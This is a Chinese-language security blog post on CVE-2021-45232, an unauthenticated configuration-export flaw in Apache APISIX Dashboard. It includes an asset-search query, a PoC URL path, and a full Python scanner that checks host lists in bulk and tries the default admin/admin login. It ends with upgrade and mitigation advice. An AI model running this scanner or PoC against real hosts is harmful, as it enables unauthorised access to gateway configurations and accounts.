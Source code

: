 ```yaml
---
title: apisix未授权访问（CVE-2021-45232）
comments: true
tags:
  - apisix
  - cve
categories: cve
keywords: apisix
top_img: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-2.png'
cover: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-2.png'
abbrlink: c3b1c716
date: 2021-12-30 17:38:35
---
```


# apisix未授权访问（CVE-2021-45232）

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

Apache APISIX 是一个动态、实时、高性能的 API 网关， 提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。Apache APISIX Dashboard 使用户可通过前端界面操作 Apache APISIX。该漏洞的存在是由于 Manager API 中的错误。Manager API 在 gin 框架的基础上引入了 droplet 框架，所有的 API 和鉴权中间件都是基于 droplet 框架开发的。但是有些 API 直接使用了框架 gin 的接口，从而绕过身份验证。

## 风险等级

高危

## 影响版本

Apache APISIX Dashboard < 2.10.1

## 资产确定

```
title="Apache APISIX Dashboard"
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-1.jpg)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-2.png)

## 漏洞检测

**POC** 

```
host + /apisix/admin/migrate/export
```

验证，成功读取文件

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-4.jpg)

访问该地址可直接下载配置文件

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-3.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-6.png)

**检测脚本**

https://github.com/Ifory885/CVE-2021-45232

```python
import argparse
import sys

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}


def banner():
    print(r"""
  _______      ________    ___   ___ ___  __        _  _   _____ ___  ____ ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \/_ |      | || | | ____|__ \|___ \__ \ 
| |     \ \  / /| |__ ______ ) | | | | ) || |______| || |_| |__    ) | __) | ) |
| |      \ \/ / |  __|______/ /| | | |/ / | |______|__   _|___ \  / / |__ < / / 
| |____   \  /  | |____    / /_| |_| / /_ | |         | |  ___) |/ /_ ___) / /_ 
 \_____|   \/   |______|  |____|\___/____||_|         |_| |____/|____|____/____|

 																                                               by:Ifory""")


def parse_args():
    parser = argparse.ArgumentParser(
        epilog='\tExample: \r\npython3 ' + sys.argv[0] + ' -u 127.0.0.1:9000')
    parser.add_argument("-u", "--url", type=str,
                        required=False, default=None, help="待检测URL")
    parser.add_argument("-f", "--file", type=str,
                        required=False, default=None, help="批量导入检测")
    return parser.parse_args()


def handle_url(host):
    if 'http' not in host:
        host = 'http://' + host
    return host


def poc(host):
    url = host + '/apisix/admin/migrate/export'
    try:
        respose = requests.get(url, headers=headers, verify=False, timeout=5)
        if "Counsumers" in respose.text:
            print(f"[+]{host} vul!")
            with open("vul.txt", "a", encoding="utf-8") as f:
                f.write(f"{url}\n")
        else:
            print(f"[-]{host} no vul!")
        return True
    except:
        print(f"[-]{host} 页面无法访问")
        return False


def login(host):
    url = host + '/apisix/admin/user/login'
    json = {"username": "admin", "password": "admin"}
    try:
        respose = requests.post(url, headers=headers,
                                json=json, verify=False, timeout=5)
        if '"code":0' in respose.text:
            print(f"[+]{host} default password!")
            with open("vul_login.txt", "a", encoding="utf-8") as f:
                f.write(f"{host}\n")
        else:
            print(f"[-]{host} no default password!")
    except:
        print(f"[-]{host} 页面无法访问")


if __name__ == '__main__':
    banner()
    args = parse_args()
    if args.url:
        host = handle_url(args.url)
        if poc(host):
            login(host)
    else:
        if args.file:
            with open(f"{args.file}", "r", encoding="utf-8") as put:
                for url in put.readlines():
                    host = url.strip()
                    host = handle_url(host)
                    if poc(host):
                        login(host)
```

## 修复方案

目前官方已发布修复版本修复了该漏洞，请受影响的用户升级到安全版本：

https://github.com/apache/apisix-dashboard/releases/tag/v2.10.1

若无法及时升级的用户，可根据官方提供的修复建议通过修改默认用户名和密码，并设置访问Apache APISIX Dashboard的白名单进行缓解。
